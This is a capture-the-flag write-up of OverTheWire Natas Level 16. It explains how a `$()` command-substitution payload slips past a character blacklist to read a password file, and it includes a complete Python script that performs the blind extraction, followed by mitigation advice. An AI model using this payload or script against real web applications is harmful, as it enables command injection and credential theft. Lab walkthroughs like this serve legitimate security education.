


# Natas Level 16: Blind Command Injection with Command Substitution

## The Setup
| Level | Username | Target URL |
| :--- | :--- | :--- |
| Level 16 | natas16 | http://natas16.natas.labs.overthewire.org |

**Introduction:** 

Natas Level 16 brought me back to the grep based search functionality, but with significantly improved filtering. After the command injection vulnerabilities in Levels 9 and 10, the developers added more comprehensive character blacklisting. However, as I would soon discover, even extensive filtering can be incomplete. This time, I needed to get creative with command substitution to extract the password one character at a time through a blind injection attack.

---

## Hunting for Clues

When I loaded the page, I immediately noticed a stronger security warning:



The page displayed "NATAS16" at the top with a prominent message: "For security reasons, we now filter even more on certain characters." Below that was the familiar search interface with "Find words containing:" followed by a text input field and a "Search" button. An "Output:" section was ready to display results, and the "View sourcecode" link was positioned in the bottom right corner.

The phrase "filter even more" suggested the developers had learned from the previous levels and implemented stricter input validation. I clicked on "View sourcecode" to see what changed:

```php
...
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
...
```

Comparing this to the previous levels, I could see significant improvements:

**Level 9:** No filtering at all
**Level 10:** Blocked `;`, `|`, and `&`
**Level 16:** Blocks `;`, `|`, `&`, backticks, single quotes, and double quotes

The filter now catches:
- `;` - Command separator
- `|` - Pipe operator
- `&` - Background execution and logical AND
- `` ` `` - Backtick command substitution
- `'` - Single quotes (string delimiter)
- `"` - Double quotes (string delimiter)

This is much more comprehensive. But as I analyzed the filter pattern ``/[;|&`\'\"]/``, I noticed something critical: the developers blocked backticks for command substitution but forgot about the alternative syntax: `$()`.

In bash, there are two ways to perform command substitution:
1. Backticks: `` `command` ``
2. Dollar parentheses: `$(command)`

Both do the same thing, but `$()` is the modern, preferred syntax. The filter only blocks the old backtick style.

Additionally, I noticed the search term is placed inside double quotes in the grep command:
```php
passthru("grep -i \"$key\" dictionary.txt");
```

Even though the filter blocks double quote characters in user input, the command itself wraps the search term in double quotes. This is important because it means I can't easily break out of the string context, but command substitution with `$()` still works inside double quotes.

Before crafting an exploit, I wanted to understand what was in the dictionary file. I navigated directly to `http://natas16.natas.labs.overthewire.org/dictionary.txt`:



The dictionary.txt file contained a list of words in alphabetical order: African, Africans, Allah, Allah's, American, Americanism, Americanism's, Americanisms, Americans, and many more. This was the same dictionary from previous levels.

---

## Breaking In

My strategy was to exploit the `$()` command substitution that wasn't blocked by the filter. However, unlike Level 9 where I could directly see command output, this level only shows grep results. I needed to perform a blind command injection attack where I infer information based on whether certain words appear in the output.

Here's my attack concept:

1. Use command substitution to execute `grep` on the password file
2. Append a known word from the dictionary to the substitution
3. If the password starts with a specific character, the grep will match and return output
4. This output gets concatenated with the dictionary word, creating a search term that won't match anything in the dictionary
5. By observing whether the dictionary word appears in the results, I can determine if my guess was correct

**The Payload Structure:**

```bash
$(grep ^PASSWORD_GUESS /etc/natas_webpass/natas17)African
```

Breaking this down:
- `$(...)` - Command substitution (not blocked)
- `grep ^PASSWORD_GUESS /etc/natas_webpass/natas17` - Search for lines starting with my guess in the password file
- `African` - A word I know exists in the dictionary

**How This Works:**

**Case 1: Correct guess (password starts with "E")**
```bash
$(grep ^E /etc/natas_webpass/natas17)African
```
- The inner grep matches the password line: `Eqj...`
- Command substitution replaces it: `Eqj...African`
- Outer grep searches for `Eqj...African` in dictionary.txt
- This weird combination doesn't exist in the dictionary
- Result: No "African" in the output (because it was consumed by the substitution)

**Case 2: Wrong guess (password doesn't start with "A")**
```bash
$(grep ^A /etc/natas_webpass/natas17)African
```
- The inner grep finds nothing (password doesn't start with "A")
- Command substitution returns empty string: `African`
- Outer grep searches for `African` in dictionary.txt
- This word exists in the dictionary
- Result: "African" appears in the output

So my detection logic is inverted: if "African" is NOT in the output, my guess was correct.

Since the password is consistently 32 characters and uses only alphanumeric characters (based on patterns from previous levels), I could automate this process with a Python script. I wrote a script to iterate through all possible characters and test each position:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ cat solve16.py
import requests
from requests.auth import HTTPBasicAuth
import string

target = "http://natas16.natas.labs.overthewire.org/"
auth = HTTPBasicAuth('natas16', 'hPk[REDACTED]')
chars = string.ascii_letters + string.digits
password = ""

print(f"[*] Target: {target}")
print("[*] Cracking password for natas17. Please wait...\n")

for i in range(32):
    for char in chars:
        print(f"[?] Testing char {i+1}: {password + char}", end="\r")

        needle = f"$(grep ^{password + char} /etc/natas_webpass/natas17)African"

        try:
            r = requests.get(target, auth=auth, params={"needle": needle}, timeout=10)

            if "African" not in r.text:
                password += char
                print(f"\n[+] Found char {i+1}: {password}")
                break
        except requests.exceptions.RequestException as e:
            print(f"\n[!] Error: {e}")
            continue

print(f"\n\n[SUCCESS] Final Password: {password}")
```

Let me explain the script logic:

1. **Target Setup:** Configure the target URL and HTTP Basic Auth credentials
2. **Character Set:** Define all possible characters (uppercase, lowercase, digits)
3. **Iteration Loop:** For each of the 32 character positions:
   - Try each possible character
   - Build the payload: `$(grep ^{current_password + test_char} /etc/natas_webpass/natas17)African`
   - Send the request with the payload as the `needle` parameter
   - Check if "African" is in the response
   - If "African" is NOT present, the character is correct (add it to password and break)
4. **Output:** Display the final password

The script uses a linear search through the character set. For a 32 character password with 62 possible characters (26 lowercase + 26 uppercase + 10 digits), this means worst case 62 requests per position, or 1,984 total requests. Not the most efficient, but simple and effective.

I ran the script:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ python3 solve16.py
[*] Target: http://natas16.natas.labs.overthewire.org/
[*] Cracking password for natas17. Please wait...

[?] Testing char 1: E
[+] Found char 1: E
[?] Testing char 2: Eq
[+] Found char 2: Eq
[?] Testing char 3: Eqj
[+] Found char 3: Eqj
...
[?] Testing char 30: Eqj[REDACTED]
[+] Found char 30: Eqj[REDACTED]
[?] Testing char 31: Eqj[REDACTED]
[+] Found char 31: Eqj[REDACTED]
[?] Testing char 32: Eqj[REDACTED]
[+] Found char 32: Eqj[REDACTED]


[SUCCESS] Final Password: Eqj[REDACTED]
```

Perfect! The script successfully extracted the password character by character. Each line showed the growing password as it discovered each new character, and after testing all 32 positions, it revealed the complete password for natas17.

**The Vulnerability Breakdown:**

This challenge demonstrates **Blind Command Injection via Command Substitution Bypass**. Here's what went wrong:

1. **Incomplete Character Blacklist:** The filter blocks backticks but misses the `$()` syntax for command substitution, which is functionally equivalent.

2. **Blacklist Approach Limitations:** Trying to enumerate all dangerous characters is fundamentally flawed. Attackers only need to find one missed character or sequence.

3. **Command Substitution Inside Quotes:** Even though user input is wrapped in double quotes, command substitution with `$()` still executes within double quoted strings in bash.

4. **No Output Sanitization:** The application passes grep output directly to the user, allowing for information disclosure through presence/absence of expected words.

5. **Predictable Dictionary:** Using a known, static word list makes it easy to craft oracle attacks where the presence or absence of known words reveals information.

**How Command Substitution Works:**

Command substitution allows you to run a command and insert its output into another command. In bash:

```bash
# Old style (blocked in this level)
echo `whoami`

# New style (not blocked)
echo $(whoami)
```

Both execute `whoami` and insert the username into the echo command.

**Inside Double Quotes:**

Command substitution works even inside double quotes:

```bash
# Both of these execute the command
echo "`whoami`"
echo "$(whoami)"
```

This is why the filter's use of double quotes doesn't protect against command substitution.

**Blind Injection Techniques:**

This attack uses an oracle based blind injection:

1. **Oracle:** A mechanism that gives yes/no feedback (in this case, presence/absence of "African")
2. **Character by Character:** Extract data one piece at a time
3. **Prefix Matching:** Use `grep ^prefix` to match lines starting with a specific string
4. **Conditional Output:** Command substitution success/failure changes the search term
5. **Inference:** Deduce the correct character based on output differences

**Real World Impact:**

Command injection via command substitution bypass can lead to:

- Complete server compromise through arbitrary command execution
- Data exfiltration (as demonstrated in this level)
- File system manipulation
- Privilege escalation
- Using the server as a pivot point for further attacks
- Installing persistent backdoors
- Denial of service

**Optimization Possibilities:**

The script could be optimized using:

1. **Binary Search:** Instead of linear search through characters, use binary search to reduce requests from 62 to ~6 per character
2. **Parallel Requests:** Send multiple requests simultaneously
3. **Character Frequency Analysis:** Try common characters first
4. **Pattern Recognition:** If passwords follow patterns, exploit that

**Proper Mitigation:**

To prevent command injection and command substitution attacks:

1. **Avoid Shell Execution Entirely:**
   ```php
   // Don't use passthru, exec, system, shell_exec
   // Use safe alternatives
   $lines = file('dictionary.txt');
   $results = array_filter($lines, function($line) use ($key) {
       return stripos($line, $key) !== false;
   });
   ```

2. **Whitelist Input:**
   ```php
   if (!preg_match('/^[a-zA-Z0-9]+$/', $key)) {
       die("Invalid input");
   }
   ```

3. **Escape All Shell Arguments:**
   ```php
   $safe_key = escapeshellarg($key);
   passthru("grep -i $safe_key dictionary.txt");
   ```

4. **Use Array Form of exec:**
   ```php
   // In languages that support it, pass arguments as array
   // This prevents shell interpretation
   exec(['grep', '-i', $key, 'dictionary.txt']);
   ```

5. **Disable Dangerous Functions:**
   ```ini
   ; In php.ini
   disable_functions = exec,passthru,shell_exec,system,proc_open,popen
   ```

6. **Input Length Limits:**
   ```php
   if (strlen($key) > 50) {
       die("Input too long");
   }
   ```

7. **Sandboxing:** Run the application in a restricted environment where command execution has limited capabilities.

8. **Web Application Firewall:** Deploy WAF rules to detect command injection patterns.

9. **Principle of Least Privilege:** Run the web server with minimal permissions to limit damage from successful exploits.

10. **Code Review and Testing:** Regularly audit code for shell execution and test with tools that attempt command injection.

---

## The Loot

**Next Level Password:** `Eqj[REDACTED]`

**Quick Recap:** Exploited blind command injection by bypassing character blacklist using `$()` command substitution syntax (which wasn't filtered) to extract the password character by character through oracle based detection using dictionary word presence/absence.

---

## Lessons Learned

This level reinforced several critical security concepts:

1. **Blacklists Are Incomplete:** No matter how comprehensive a character blacklist seems, attackers can find alternative syntax or encoding to bypass it. The developers blocked backticks but missed `$()`.

2. **Multiple Syntaxes Exist:** Many languages and shells provide alternative ways to achieve the same result. Security controls must account for all variations.

3. **Context Matters:** Command substitution works inside double quotes, so wrapping user input in quotes doesn't prevent it from executing commands.

4. **Blind Injection Is Powerful:** Even without seeing direct output, attackers can extract complete data through yes/no oracle attacks.

5. **Automation Amplifies Impact:** What would be tedious manually (testing 1,984 character combinations) becomes trivial with a simple script.

6. **Whitelist Over Blacklist:** Instead of trying to block dangerous characters, explicitly allow only safe ones (alphanumeric in this case would have prevented the attack).

7. **Defense in Depth Failed:** The application relied solely on input filtering. When that single layer was bypassed, there were no additional protections.

8. **Static Resources Aid Attacks:** Using a predictable, publicly accessible dictionary file made the oracle attack straightforward.

This challenge perfectly demonstrates why secure coding practices must avoid shell execution with user input entirely. Even sophisticated filtering can be bypassed, and the only reliable defense is to eliminate the vulnerability at its source by not using shell commands or by using proper escaping and validation mechanisms.

On to Level 17!
